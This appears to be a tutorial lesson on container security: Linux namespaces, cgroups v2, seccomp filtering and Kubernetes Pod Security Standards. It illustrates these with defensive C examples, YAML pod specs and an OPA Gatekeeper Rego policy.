









# Lesson 3: Container Security, Orchestration, Runtime Protection

## 1. First-Principles Intuition & Invariants

The container security problem is fundamentally a problem of controlled resource sharing and privilege delegation across multiple trust boundaries. Before containers, Unix solved isolation through process boundaries: each process received its own virtual address space, file descriptor table, and signal handler table. The kernel enforced these boundaries through hardware page tables, capability bits, and system call dispatch logic. Containers do not introduce new isolation mechanisms; they compose existing OS primitives—namespaces, cgroups, and seccomp filters—into a coherent isolation layer that sits between the application and the kernel.

To understand why this matters, consider the threat model precisely. A containerized application running as UID 0 inside a container can escape that container and compromise the host kernel or sibling containers if any single primitive in the isolation stack is misconfigured or contains a vulnerability. The attack surface expands at three distinct layers: the container runtime (runc, containerd) executes privileged operations to set up namespaces and cgroups; the orchestrator (Kubernetes) manages policy and admission control across a cluster of nodes; the application inside the container can exploit kernel vulnerabilities or misconfigured permissions directly.

The fundamental invariant governing all container security: **isolation is only as strong as the weakest primitive in the stack.** If cgroups do not enforce memory limits correctly, a container exhausts host memory and triggers OOM kills across the entire node. If seccomp filters are incomplete, a container invokes privileged syscalls and manipulates kernel data structures. If namespaces do not properly unshare the network stack, a container sniffs or injects packets on the host network. If the container image contains a vulnerable library, no runtime protection eliminates that vulnerability—only detection and response can limit its impact.

This lesson treats container security as a series of concentric rings, each with specific guarantees and failure modes.



The innermost ring is the Linux kernel primitive layer: namespaces (UTS, Mount, PID, IPC, Network, User, Cgroup) and cgroups (v1 and v2 unified hierarchy). These are the enforcement mechanisms. The next ring is the container runtime (runc, cri-o), which translates image specifications into kernel primitives and manages container lifecycle. The third ring is the orchestrator (Kubernetes), which defines policy, admission control, network policies, and service mesh integration. The outermost ring is the supply chain: image scanning, signed artifacts, SBOM generation, and runtime threat detection.

### The Namespace-Cgroup Duality

Namespaces provide logical isolation by virtualizing kernel resources so that a process sees a constrained view of the system. A process in a new PID namespace sees only its own process tree, not the host's. A process in a new Network namespace sees only its own network interfaces and routing table. Namespaces implement the *visibility* boundary.

Cgroups provide resource accounting and enforcement: they limit CPU shares, memory, disk I/O, and other resources that a group of processes can consume. Cgroups implement the *consumption* boundary.

The duality is asymmetric in power but complementary in scope. Namespaces cannot prevent a container from consuming all CPU time—that is the cgroup's job. Cgroups cannot hide the presence of other processes on the system—that is the namespace's job. Together they form the isolation boundary. A container escape typically requires breaking out of both: either by finding a namespace bypass (a kernel bug that allows cross-namespace resource access) or by exploiting a kernel subsystem that is not properly namespaced (such as certain device drivers, the keyring subsystem, or `perf_event_open(2)`).

### The User Namespace Privilege Boundary

The User namespace deserves special attention because it is the mechanism by which containers can run unprivileged at the host level. Inside a User namespace, a process can have UID 0 (root) without possessing capabilities on the host. The kernel maintains `uid_map` and `gid_map` files in `/proc/[pid]/` that define the mapping between container UIDs and host UIDs. If a container process has UID 0 inside the namespace but the mapping assigns it UID 65534 (`nobody`) on the host, then any capability checks performed by the kernel use the mapped UID, not the container UID.

This is a crucial invariant: running a container with a User namespace does not prevent the container from gaining UID 0 inside the namespace, but it does prevent the container from obtaining host-level privileges if it escapes the namespace boundary. This is why production Kubernetes clusters should use User namespaces (enabled via `hostUsers: false` in Kubernetes 1.25+, graduating to stable in 1.30) for untrusted workloads. The security trade-off is runtime overhead (UID/GID translation on every capability check) and complexity (shared volumes require careful uid/gid offset handling).

### Threat Model & Attack Surface



The threat model must assume that an attacker can run arbitrary code inside a container. The goal of defense is to constrain what that code achieves: it must not escape the container, compromise other containers, compromise the host, or exfiltrate sensitive data. This is why defense-in-depth is essential—a single bypass must not compromise the entire system.

---

## 2. Core Architecture & Mechanics

### Namespace Implementation & Kernel Data Structures

Linux namespaces are implemented through kernel data structures that maintain per-namespace state. The `nsproxy` structure is the entry point: a per-process structure that holds pointers to namespace-specific state. A `task_struct` (the kernel representation of a process) contains a pointer to its `nsproxy`. When a process calls `clone(2)` with `CLONE_NEW*` flags or `unshare(2)`, the kernel allocates new namespace structures and updates the `nsproxy`.

```c
/*
 * Simplified nsproxy structure (from include/linux/nsproxy.h).
 * Each pointer refers to a reference-counted namespace object.
 * Multiple processes can share the same namespace by pointing
 * to the same structure; refcounting manages lifetime.
 */
struct nsproxy {
    atomic_t count;                              /* reference count              */
    struct uts_namespace      *uts_ns;           /* hostname, domainname         */
    struct ipc_namespace      *ipc_ns;           /* System V IPC, POSIX MQs      */
    struct mnt_namespace      *mnt_ns;           /* mount points                 */
    struct pid_namespace      *pid_ns_for_children; /* PID namespace for new children */
    struct net                *net_ns;           /* network stack                */
    struct time_namespace     *time_ns;          /* monotonic/boottime clocks    */
    struct time_namespace     *time_ns_for_children;
    struct cgroup_namespace   *cgroup_ns;        /* cgroup hierarchy view        */
};
/*
 * Note: user_ns is NOT stored in nsproxy. It is stored directly
 * in task_struct->cred->user_ns, because credential operations
 * require fast access to user namespace context.
 */
```

The User namespace is not stored in `nsproxy`—it lives in `task_struct->cred->user_ns`. This is not a minor implementation detail: it means User namespace checks are on the hot path of every capability evaluation, which is why any kernel bug affecting `cred->user_ns` lookups has immediate security implications.

The PID namespace uses a hierarchical tree of `pid` structures. When a process in a child PID namespace calls `getpid(2)`, the kernel returns the virtual PID allocated within the child namespace, not the global kernel PID. The PID namespace hierarchy allows a parent namespace to observe and signal child namespace processes (`kill(2)` works across namespace boundaries from parent to child), while processes in child namespaces cannot see processes in sibling or parent namespaces.

The Mount namespace maintains a per-namespace VFS mount tree. When a process calls `mount(2)` within a new Mount namespace, filesystem changes are visible only to processes within that namespace (subject to mount propagation rules: `MS_SHARED`, `MS_PRIVATE`, `MS_SLAVE`, `MS_UNBINDABLE`). Mount propagation is frequently misconfigured: a container that shares a mount point with `MS_SHARED` propagation will see mount events from the host, breaking the isolation expectation. Container runtimes set `MS_PRIVATE` recursively as the first step in Mount namespace setup to prevent this.

The Network namespace virtualizes the entire network stack: network interfaces, routing tables, netfilter (iptables/nftables) rules, and socket tables. To communicate across namespaces, packets must traverse a virtual ethernet pair (`veth`) or pass through network bridges. Each container receives a `veth` interface; the other end of the pair lives in a Linux bridge on the host (or in another namespace, depending on the CNI plugin).

The Network Time namespace (added in Linux 5.6) virtualizes `CLOCK_MONOTONIC` and `CLOCK_BOOTTIME`, which is relevant to security because timestamp-dependent logic (token expiry, certificate validity) can be manipulated if a process can skew its clock view.

```c
/*
 * Demonstrating namespace creation via clone(2).
 * This is what a container runtime does at process spawn time.
 */
#define _GNU_SOURCE
#include <sched.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>

#define STACK_SIZE (1024 * 1024)

static char child_stack[STACK_SIZE];

static int child_fn(void *arg) {
    /* Inside new namespaces: PID 1 in new PID ns,
     * new UTS hostname, new network stack, new IPC. */
    printf("Child PID (in new ns): %d\n", getpid());   /* prints 1 */
    printf("Parent PID visible:    %d\n", getppid());  /* prints 0 — parent not visible */

    /* Setting hostname affects only this UTS namespace */
    sethostname("container-host", 14);

    pause();
    return 0;
}

int main(void) {
    int flags = CLONE_NEWPID   /* new PID namespace    */
              | CLONE_NEWUTS   /* new UTS namespace    */
              | CLONE_NEWNET   /* new network ns       */
              | CLONE_NEWIPC   /* new IPC namespace    */
              | CLONE_NEWNS    /* new mount namespace  */
              | SIGCHLD;

    pid_t pid = clone(child_fn, child_stack + STACK_SIZE, flags, NULL);
    if (pid < 0) { perror("clone"); exit(EXIT_FAILURE); }

    printf("Host PID of child: %d\n", pid);  /* host-visible global PID */
    waitpid(pid, NULL, 0);
    return 0;
}
```

### Cgroups: Resource Accounting and Enforcement

Cgroups v1 uses separate subsystems for CPU, memory, I/O, devices, and other resources, each maintaining its own hierarchy. A process belongs to exactly one cgroup in each subsystem hierarchy. This model created administrative complexity and subtle interactions between subsystems (for example, the memory controller in v1 does not account for kernel memory in the same way as the CPU controller accounts for threads).

Cgroups v2 (the unified hierarchy, default in modern distributions since kernel 4.5, mandatory in Linux 5.x distros) consolidates all subsystems into a single hierarchy. A process belongs to one cgroup, and all resource limits are managed through that single cgroup entry. This matters architecturally because it eliminates the class of bugs caused by subsystem hierarchy divergence.

**Memory controller (v2):** Uses a `page_counter` struct that tracks anonymous pages, file-backed pages, and kernel memory (slab allocations). The `memory.max` file sets a hard limit; when reached, the kernel attempts reclamation (evicting page-backed pages to swap). If reclamation fails, the OOM killer terminates processes within the cgroup, not arbitrarily across the host. The `memory.high` soft limit triggers throttling before the hard limit is reached, allowing for more graceful degradation. `memory.swap.max` controls swap usage separately.

**CPU controller (v2):** Uses CPU weight (`cpu.weight`, range 1–10000, default 100) for proportional allocation. The `cpu.max` file implements hard throttling: `"quota_us period_us"` (e.g., `"100000 100000"` limits a cgroup to 100ms per 100ms period—one full CPU core). The CFS (Completely Fair Scheduler) enforces this through bandwidth accounting. When a cgroup exhausts its quota, the scheduler throttles all tasks in the cgroup until the period resets.

**I/O controller (v2):** The `io.max` file allows per-device limits in the form `"MAJ:MIN rbps=BYTES wbps=BYTES riops=IOPS wiops=IOPS"`. The `io.stat` file exposes per-device I/O statistics. The underlying mechanism uses per-cgroup request queues in the block layer.

**Device controller (v2):** In v2, device access control moved from a cgroup-based whitelist (v1's `devices.allow`/`devices.deny`) to eBPF programs attached to the cgroup with `BPF_PROG_TYPE_CGROUP_DEVICE`. The eBPF program receives the device type, major number, minor number, and access mode, and returns allow or deny. Container runtimes generate and load these programs automatically based on the device access list in the OCI runtime spec.

```c
/*
 * Programmatic cgroup v2 memory limit — illustrates the filesystem
 * interface that container runtimes use to configure cgroups.
 * In practice, runc uses libcgroup or direct fd writes.
 */
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

static int cg_write(const char *cgroup_path,
                    const char *file,
                    const char *value) {
    char path[512];
    snprintf(path, sizeof(path), "%s/%s", cgroup_path, file);

    int fd = open(path, O_WRONLY);
    if (fd < 0) { perror("open"); return -1; }

    ssize_t n = write(fd, value, strlen(value));
    close(fd);
    return (n < 0) ? -1 : 0;
}

int main(void) {
    const char *cg = "/sys/fs/cgroup/mycontainer";

    /* Create cgroup directory (requires CAP_SYS_ADMIN or delegation) */
    mkdir(cg, 0755);

    /* Limit to 256 MiB RAM */
    cg_write(cg, "memory.max", "268435456");

    /* Soft limit: start reclaiming at 200 MiB */
    cg_write(cg, "memory.high", "209715200");

    /* Hard CPU throttle: 50ms per 100ms period (0.5 CPU) */
    cg_write(cg, "cpu.max", "50000 100000");

    /* Move current process into the cgroup */
    char pid_str[32];
    snprintf(pid_str, sizeof(pid_str), "%d\n", getpid());
    cg_write(cg, "cgroup.procs", pid_str);

    printf("Process now running in cgroup %s\n", cg);
    return 0;
}
```

### Container Runtimes: From Image to Process

Container runtimes translate OCI image specifications into running processes. The Open Container Initiative defines two specifications: the OCI Image Spec (layer format, manifest, configuration) and the OCI Runtime Spec (the `config.json` that specifies the process, root filesystem, mounts, namespaces, capabilities, and resource limits). The `config.json` is the security-critical artifact: it determines every kernel primitive applied to the container.



A critical invariant during this process: the runtime must execute all privileged operations (namespace and cgroup setup) before dropping privileges. If it drops privileges too early, it cannot set up namespaces or cgroups. If it drops them too late, a malicious container can exploit the privileged code path window. This is exactly the mechanism CVE-2019-5736 exploited: the runc binary held a file descriptor to itself (`/proc/self/exe`) during container exec, and a container that could overwrite `/proc/self/exe` (via a symlink attack on the binary) could replace the runc binary with a malicious payload that executed with host root privileges the next time runc was invoked.

**Rootless containers** (implemented in tools like Podman and rootless Docker) run the entire container runtime as an unprivileged user. The runtime uses User namespace mapping so that UID 0 inside the container maps to the invoking user's UID on the host. This eliminates the privileged runtime attack surface at the cost of reduced functionality (no binding to privileged ports, no access to host network interfaces, limited device access).

### Seccomp Filters: System Call Sandboxing

Seccomp (secure computing mode) allows processes to restrict the system calls they can invoke. The filter mode uses BPF to allow fine-grained control based on syscall number and arguments. A seccomp filter receives a `seccomp_data` struct and returns one of several actions.

```c
/*
 * Demonstrating seccomp filter installation using libseccomp.
 * This approximates what a container runtime does before execve().
 * Compile with: gcc -o seccomp_demo seccomp_demo.c -lseccomp
 */
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>

int main(void) {
    /*
     * Initialize with a default-deny policy.
     * SCMP_ACT_ERRNO(EPERM) returns EPERM for blocked syscalls
     * rather than SCMP_ACT_KILL, which aids debugging.
     * Production containers often use SCMP_ACT_KILL_PROCESS.
     */
    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_ERRNO(EPERM));
    if (!ctx) { perror("seccomp_init"); exit(EXIT_FAILURE); }

    /* Allow essential syscalls */
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read),   0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write),  0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit),   0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(mmap),   0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(brk),    0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(close),  0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fstat),  0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(openat), 0);

    /*
     * Explicitly deny high-risk syscalls that the default Docker
     * seccomp profile also denies. These cannot be blocked by
     * default-deny alone if the allowlist is too broad.
     *
     * kexec_load: replace running kernel
     * ptrace: attach to host processes (blocked separately by Yama)
     * mount/umount2: break filesystem namespace isolation
     * unshare: create new namespaces (can re-establish capabilities)
     * keyctl: manipulate kernel keyrings (CVE-2016-0728 vector)
     * add_key / request_key: inject keys into kernel keyring
     * perf_event_open: kernel memory side-channel (Spectre vector)
     */
    seccomp_rule_add(ctx, SCMP_ACT_KILL_PROCESS, SCMP_SYS(kexec_load),      0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL_PROCESS, SCMP_SYS(ptrace),          0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL_PROCESS, SCMP_SYS(mount),           0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL_PROCESS, SCMP_SYS(umount2),         0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL_PROCESS, SCMP_SYS(unshare),         0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL_PROCESS, SCMP_SYS(keyctl),          0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL_PROCESS, SCMP_SYS(add_key),         0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL_PROCESS, SCMP_SYS(request_key),     0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL_PROCESS, SCMP_SYS(perf_event_open), 0);

    /* Load the filter into the kernel */
    if (seccomp_load(ctx) < 0) {
        perror("seccomp_load");
        seccomp_release(ctx);
        exit(EXIT_FAILURE);
    }
    seccomp_release(ctx);

    /*
     * From this point, the process is sandboxed.
     * Any syscall not in the allowlist returns EPERM.
     * kexec_load, ptrace, etc. kill the process immediately.
     */
    printf("Seccomp filter active. PID: %d\n", getpid());

    /* This would be blocked — SCMP_ACT_ERRNO(EPERM) */
    /* mkdir("/tmp/test", 0755); */

    return 0;
}
```

The Docker default seccomp profile (available at `moby/moby` in the source tree) allows approximately 300 of the ~400+ Linux syscalls. The blocked set targets syscalls that are dangerous in a container context: `kexec_load`, `create_module`, `init_module`, `delete_module`, `iopl`, `ioperm`, `syslog`, `acct`, `settimeofday`, `swapon`, and others. The profile is architecture-aware: on x86-64, it additionally blocks `modify_ldt` (which was used in several privilege escalation exploits).

The performance overhead of seccomp with TSYNC (thread-synchronous) mode is typically measured at 1–3% for syscall-heavy workloads, and negligible for compute-bound workloads. The overhead comes from the BPF program execution on the syscall hot path and from the cache effects of additional memory accesses. Modern kernels use JIT compilation for the BPF filter program to minimize this overhead.

---

## 3. Kubernetes Security Primitives

### Pod Security Standards & Admission Control

Kubernetes Pod Security Standards (PSS) replaced the deprecated PodSecurityPolicy (PSP) API in Kubernetes 1.25. PSS defines three levels enforced by the built-in admission controller `PodSecurity`:

- **Privileged:** No restrictions. Intended for system-level workloads (CNI plugins, node exporters).
- **Baseline:** Blocks the most dangerous configurations (privileged containers, `hostNetwork`, `hostPID`, `hostIPC`, dangerous capabilities) while allowing most common configurations.
- **Restricted:** Requires non-root UID, `allowPrivilegeEscalation: false`, drops `ALL` capabilities (then adds back only what is needed), enforces `seccompProfile`, and requires read-only root filesystems or explicit `allowPrivilegeEscalation: false`.



The PSS admission controller is activated by labeling namespaces:

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: production
  labels:
    # enforce: violations reject the pod
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/enforce-version: v1.30
    # audit: violations appear in the audit log but do not reject
    pod-security.kubernetes.io/audit: restricted
    pod-security.kubernetes.io/audit-version: v1.30
    # warn: violations produce user-visible warnings but do not reject
    pod-security.kubernetes.io/warn: restricted
    pod-security.kubernetes.io/warn-version: v1.30
```

A compliant pod specification under the `restricted` policy:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: restricted-app
  namespace: production
spec:
  # Required for User namespace isolation (Kubernetes 1.30+)
  hostUsers: false
  securityContext:
    runAsNonRoot: true
    runAsUser: 10001
    runAsGroup: 10001
    fsGroup: 10001
    seccompProfile:
      type: RuntimeDefault   # uses containerd/runc default seccomp profile
    sysctls: []              # no unsafe sysctls
  containers:
  - name: app
    image: gcr.io/distroless/static-debian12:nonroot@sha256:<digest>
    securityContext:
      allowPrivilegeEscalation: false
      readOnlyRootFilesystem: true
      capabilities:
        drop:
        - ALL
        # Add back only what this specific app requires, e.g.:
        # add:
        # - NET_BIND_SERVICE   # only if binding port < 1024
      runAsNonRoot: true
      runAsUser: 10001
    resources:
      requests:
        cpu: "100m"
        memory: "128Mi"
      limits:
        cpu: "500m"
        memory: "256Mi"
    volumeMounts:
    - name: tmp-dir
      mountPath: /tmp            # writable temp volume; root FS stays read-only
  volumes:
  - name: tmp-dir
    emptyDir:
      medium: Memory             # tmpfs; cleared on pod restart
      sizeLimit: "32Mi"
```

PSS operates at the namespace level, which is intentionally coarse. For fine-grained policy (custom rules per workload type, mutation of non-compliant specs, or policy-as-code with version control), organizations layer an external admission webhook like **OPA Gatekeeper** or **Kyverno** on top.

**OPA Gatekeeper** implements the admission webhook and evaluates Rego policies against the incoming resource. It decouples the policy from the admission controller binary, allowing policies to be version-controlled, tested, and deployed independently.

```rego
# OPA Gatekeeper ConstraintTemplate: enforce non-root containers
# Stored as a CRD in the cluster; evaluated at admission time.
package k8snoroot

violation[{"msg": msg}] {
    container := input.review.object.spec.containers[_]
    not container.securityContext.runAsNonRoot == true
    not container.securityContext.runAsUser > 0
    msg := sprintf(
        "Container '%v' must set runAsNonRoot=true or runAsUser > 0",
        [container.name]
    )
}

violation[{"msg": msg}] {
    container := input.review.object.spec.containers[_]
    container.securityContext.runAsUser == 0
    msg := sprintf(
        "Container '%v' must not run as UID 0 (root)",
        [container.name]
    )
}
```

